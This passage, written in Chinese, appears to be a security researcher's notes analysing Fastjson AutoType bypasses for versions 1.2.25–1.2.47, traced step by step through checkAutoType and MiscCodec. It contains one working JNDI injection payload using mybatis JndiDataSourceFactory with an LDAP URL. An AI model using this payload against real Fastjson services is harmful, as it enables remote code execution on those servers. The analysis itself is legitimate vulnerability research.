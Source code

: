 ```
}
```

![image-20220302190939277](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302190939277.png)

# 1.2.25-1.2.45补丁绕过

需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列<3.5.0的版本

这里就记录一个payload就是了

```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/badNameClass"}}
```

# 1.2.25-1.2.47通杀

 这里有两个版本段：

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport不能利用
- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用

漏洞原理：通过java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测

## 漏洞分析

因为不开启AutoTypeSupport都能利用成功，这里就只分析不开启的情况了

一样的来到了checkAutoType方法

![image-20220303214834510](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303214834510.png)

这里因为autoTypeSupport默认为false，所以不会进入黑名单检测

但是以为此时的typeName是java.lang.Class，findClass能够找到所以后面的clazz不为空会直接返回

![image-20220303214922556](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303214922556.png)

进入if返回clazz

![image-20220303215019844](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303215019844.png)

回到DefaultJSONParser的parseObject方法一路步进到

![image-20220303215120277](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303215120277.png)

跟进deserialize方法来到了MiscCodec类的deserialize方法

![image-20220303215325280](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303215325280.png)

这里的strVal是com.sun.rowset.JdbcRowSetImpl

跟进TypeUtils.loadClass
